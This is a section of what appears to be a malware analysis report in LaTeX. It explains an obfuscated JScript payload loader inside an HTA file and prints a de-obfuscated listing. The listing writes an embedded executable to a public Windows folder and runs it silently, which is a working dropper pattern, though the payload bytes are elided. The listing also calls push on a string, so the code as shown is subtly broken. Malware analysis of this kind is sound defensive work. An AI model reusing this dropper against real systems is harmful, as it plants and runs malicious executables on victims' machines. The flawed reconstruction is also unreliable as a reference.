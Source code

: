 \section{Payload Loader - JavaScript} \label{sec:impl-loader}
The payload loader, or payload dropper, is responsible for reconstructing the executable payload on the victim's device
and running it. It is written in JavaScript, or more precisely, Microsoft JScript, a substandard of JavaScript with
added capabilities meant to be run on Microsoft Windows systems, for example by the application we are using to execute
the \acrfull{HTA} hosting the payload loader.

The only contents of the \acrshort{HTA} are an empty body and an \acrshort{HTML} script tag containing the payload
loader, so we don't deem it necessary to discuss it and will focus solely on the JavaScript contents of the script
tag. 

It is evident that the attackers wanted this part of the malware code to be the hardest to analyse, as it is more
heavily obfuscated than any other part of the code we analysed. Only the second-stage payload which we didn't 
analyse or recreate was more obfuscated. These obfuscations are mostly symbolic in nature, relying on quirks of the
JavaScript programming language as well as string encoding, usage of hexadecimal numbers instead of decimal numbers,
as well as indirection in array accesses.

As a first step in our re-implementation process, we reconstructed the original source code by de-obfuscating the 
program. It is important to note that the code is de-obfuscated to run using Microsoft JScript and isn't necessarily 
the simplest or most elegant way to write the program, adhering to modern JavaScript best-practices.

\begin{lstlisting}[language=JavaScript, caption={Unobfuscated payload loader}][H]
window.resizeTo(0, 0)
try {
  var data = [104,101, ... ] // payload 
  var path = "C:\\Users\\Public\\Libraries\\AppStore.exe"
  var fso = new ActiveXObject("Scripting.FileSystemObject")

  var content = ''
  for (var i = 0; i < data.length; i++) {
    content.push(String.fromCharCode(data[i]))
  }

  var file = fso.CreateTextFile(path, true)
  file.Write("MZ")
  file.Close()

  file = fso.OpenTextFile(path, 8, false, -1)
  file.Write(content)
  file.Close()
  var shell = new ActiveXObject("WScript.Shell")
  shell.Run(path, 0)

} catch (error) {}
window.close()
\end{lstlisting}

